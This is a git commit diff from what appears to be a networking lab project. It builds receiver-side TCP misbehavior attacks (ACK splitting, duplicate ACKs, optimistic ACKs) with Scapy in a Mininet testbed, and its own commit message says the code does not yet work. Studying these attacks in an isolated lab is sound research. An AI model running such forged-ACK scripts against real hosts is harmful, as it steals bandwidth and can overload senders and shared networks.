

stuff that doesn't work

diff --git a/transmit/temp.py b/transmit/temp.py
@@ -10,13 +10,13 @@ import subprocess as sp
 parser = ArgumentParser(description = "Attack and destinations")
 parser.add_argument('--attack', '-a',
     dest = "attack",
-    type = String,
+    type = str,
     help = "Type of attack: normal, split, dup, or opt",
     default = 'normal')
 
 parser.add_argument('--ip', '-i',
     dest = "IP_DST",
-    type = String,
+    type = str,
     help = "IP destination",
     default = '10.0.0.1')
 
@@ -38,6 +38,8 @@ IP_SRC = None
 SRC_PORT = random.randint(1024,65535)
 data = list()
 FIN = 0x01
+initialTs = 0
+initialSeq = 0
 
 socket = conf.L2socket(iface="client-eth0")
 
@@ -55,14 +57,21 @@ def sendSYN():
     request = IP(dst=args.IP_DST) / TCP(window=65535, dport=args.DST_PORT, sport=SRC_PORT,
                 seq=(syn_ack[TCP].ack), ack=(syn_ack[TCP].seq + 1), flags='FA') / getStr
     socket.send(Ether() / request)
+    return (initialTs, initialSeq)
 
 def sendACK(ack_num):
     ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
             seq=pkt[TCP].ack, ack=ack_num, flags='A')
     socket.send(Ether() / ack_pkt)
 
+def normal(pkt):
+    
+    data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+    ack_num = pkt[TCP].seq + len(pkt[TCP].payload)
+    sendACK(ack_num)
+
 def split(pkt):
-    sendSYN()
+    data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
     global DST_PORT, IP_DST, data, socket
     if IP not in pkt:
         return
@@ -89,7 +98,7 @@ def split(pkt):
         sendACK(ack_num)
 
 def dup(pkt):
-    sendSYN()
+    data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
     global DST_PORT, IP_DST, data, socket
     if IP not in pkt:
         return
@@ -104,7 +113,7 @@ def dup(pkt):
     for i in range(args.num):
         sendACK(ack_num)
 
-def opt(pkt):
+def opt_acks():
     ack_num = 0
     MTU = 1472
     WAIT_TIME = 0.05
@@ -114,19 +123,28 @@ def opt(pkt):
         sendACK(ack_num)
         time.sleep(WAIT_TIME)
 
-    sendSYN()
+def opt(pkt):
+    data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
 
 
 
 if __name__ == '__main__':
     print("Sniffing......")
+    if args.attack == "normal":
+        (initialTs, initialSeq) = sendSYN()
+        FileName = "npy/normal.npy"
+        sniff(iface="client-eth0", prn=normal, filter="tcp and ip", timeout=4)
     if args.attack == 'split':
+        (initialTs, initialSeq) = sendSYN()
         FileName = "npy/split.npy"       
         sniff(iface="client-eth0", prn=split, filter="tcp and ip", timeout=4)
     if args.attack == 'dup':
+        (initialTs, initialSeq) = sendSYN()
         FileName = "npy/dup.npy"       
         sniff(iface="client-eth0", prn=dup, filter="tcp and ip", timeout=4)
     if args.attack == 'opt':
+        opt_acks()
+        (initialTs, initialSeq) = sendSYN()
         FileName = "npy/op.npy"       
         sniff(iface="client-eth0", prn=opt, filter="tcp and ip", timeout=4)
       

diff --git a/topo_temp.py b/topo_temp.py
@@ -1,0 +1,89 @@
+#!/usr/bin/python
+
+import argparse
+import time
+import os
+from mininet.topo import Topo
+from mininet.node import CPULimitedHost
+from mininet.link import TCLink
+from mininet.net import Mininet
+from mininet.log import lg, info
+from mininet.util import dumpNodeConnections
+from mininet.cli import CLI
+from mininet.node import OVSController
+
+parser = argparse.ArgumentParser(description="Run script")
+
+# What type of script to run. Four options:
+# 1. Normal TCP operation
+# 2. DupACKing attack from recevier
+# 3. OptACKing attack from receiver
+# 4. SplitACKing attack from receiver
+parser.add_argument("--script", 
+	type=str, 
+	choices = ["transmit/normal.py", 
+	"transmit/dup.py", 
+	"transmit/op.py", 
+	"transmit/split.py"],
+	default = "transmit/normal.py")
+    
+parser.add_argument("--attack", 
+	type=str, 
+	choices = ["normal",
+    "split",
+    "dup",
+    "opt"],
+	default = "normal")
+
+
+
+args = parser.parse_args()
+
+# Generate simple topology per Experiment 1.
+class NodeGenerator(Topo):
+  "Connect two hosts."
+
+  def build(self):
+    switch = self.addSwitch('s0')
+    server = self.addHost('server', ip='10.0.0.1')
+    client = self.addHost('client', ip='10.0.0.2')
+    # TODO: Mess with:
+    # - RTT
+    # - BW
+    # - Queue size
+    self.addLink(server, switch, bw=200, delay="36ms",
+    	loss = 0, max_queue_size = 256);
+    self.addLink(client, switch, bw=200, delay="36ms",
+    	loss = 0, max_queue_size = 256);
+    return
+
+
+def launchNet():
+  topo = NodeGenerator()
+  # TODO: Why this controller?
+  net = Mininet(topo=topo, 
+  	host=CPULimitedHost, 
+  	link=TCLink,
+  	controller=OVSController)
+
+  print "Starting network"
+  net.start()
+
+  print "Retrieving nodes"
+  client = net.get('client')
+  server = net.get('server')
+
+  # TODO: Determine if this line is necessary
+  client.cmd("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
+
+  # Launch webserver to generate traffic
+  server.popen("python webserver.py", shell=True)
+  #client.popen("python %s %s %s" % (args.script, '10.0.0.1', 8888), shell=True).wait()
+  client.popen("python transmit/temp.py --attack %s --ip %s --port %s" % (args.attack, '10.0.0.1', 8888), shell=True).wait()
+
+  # Kill webserver
+  server.popen("pgrep -f webserver.py | xargs kill -9", shell=True).wait() 
+  net.stop()
+
+if __name__ == '__main__':
+  launchNet()

diff --git a/transmit/normal.py b/transmit/normal.py
@@ -58,7 +58,7 @@ def addACKs(pkt):
     add = 1
 
   ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
-             seq=(pkt[TCP].ack), ack=(pkt[TCP].seq + tcp_seg_len + add), flags='A')
+             seq=(pkt[TCP].ack), ack=(pkt[TCP].seq + tcp_seg_len), flags='A')
   socket.send(Ether() / ack_pkt)
 
 print("Sniffing......")

diff --git a/transmit/split.py b/transmit/split.py
@@ -56,7 +56,7 @@ def addACKs(pkt):
   if pkt.flags & FIN:
     add = 1
 
-  nextACK_num = pkt[TCP].seq + tcp_seg_len + add
+  nextACK_num = pkt[TCP].seq + tcp_seg_len
 
   ACK_nums = list()
   if ACK_delta != 0:

diff --git a/transmit/dup.py b/transmit/dup.py
@@ -60,7 +60,7 @@ def addACKs(pkt):
     add = 1
     cnt = 1
 
-  nextACK_num = (pkt[TCP].seq + tcp_seg_len + add)
+  nextACK_num = (pkt[TCP].seq + tcp_seg_len)
 
   if maxACK > nextACK_num:
     return
